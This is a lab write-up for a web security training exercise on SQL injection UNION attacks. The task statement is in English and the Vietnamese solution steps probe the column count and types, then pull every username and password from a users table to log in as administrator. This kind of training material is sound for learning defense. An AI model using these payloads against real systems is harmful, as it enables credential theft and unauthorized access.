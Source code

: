 # **Lab: SQL injection UNION attack, retrieving data from other tables**
>  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.  
 The database contains a different table called `users`, with columns called `username` and `password`.  
  To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.  

  # **Solution**
  Bắt đầu nhìn tổng thể trang web ta thấy được có các nội dung gồm tiêu đề và văn bản chính. Có thể đoán được truy vấn ít nhất có 2 cột và đều là kiểu dữ liệu chuỗi kí tự.

Truy cập một trang liên kết bất kì để bắt đầu chèn UNION vào tham số bộ lọc từ đó xác định chính xác số cột truy vấn trả về và kiểu dữ liệu của các cột đó:

```
https://0ae6006d04fceb7980031c7900e000a4.web-security-academy.net/filter?category=Pets
```

```
'UNION SELECT NULL, NULL -- 
```

Qua bước trên, ta xác định được số cột truy vấn trả về là 2.

```
' UNION SELECT 'a', 'a' --
```

Thay giá trị NULL thành 'a'. Ta xác định chính xác rằng cả 2 cột đều là kiểu dữ liệu chuỗi kí tự. Tiếp đó ta bắt đầu thực hiện truy vấn tới bảng `users`.

Như đề bài đã cho thì ta có bảng `users` gồm 2 cột `username` và `password`.

```
' UNION SELECT username,password FROM users -- 
```

Từ đó ta thu được dữ liệu từ bảng `users`. Sử dụng thông tin tài khoản `administrator` để đăng nhập và hoàn thành nhiệm vụ thôi.

![image](https://i.pinimg.com/originals/5f/39/e6/5f39e6d606da1c3d603bdabfccf053f3.jpg)